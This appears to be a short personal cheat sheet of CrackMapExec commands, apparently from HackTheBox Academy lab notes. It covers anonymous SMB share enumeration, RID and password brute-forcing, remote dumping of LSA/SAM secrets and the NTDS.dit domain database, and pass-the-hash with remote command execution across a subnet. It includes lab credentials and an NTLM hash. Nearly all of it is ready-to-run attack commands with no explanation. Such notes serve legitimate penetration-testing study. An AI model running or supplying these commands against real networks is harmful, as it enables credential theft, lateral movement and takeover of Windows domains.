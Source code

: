 **OUTDATED!** Newer one is [[nxc]]
Attacks: #PtH 

```bash
$ crackmapexec smb <IP> --shares -u '' -p ''
```
# Bruteforce
## Bruteforce RIDs
```shell-session
$ crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```
## Bruteforce Username/Passwords
```shell-session
$ crackmapexec smb <IP> -u </path/to/username> -p </path/to/passwords>
```
# Dump
## Dump LSA/SAM Remotely
```shell-session
$ crackmapexec smb <IP> --local-auth -u bob -p HTB_@cademy_stdnt! --<lsa/sam>
```
## Dump NTDS.dit
```shell-session
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

# Pass the Hash
```shell-session
# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 [-x <COMMAND>]
```
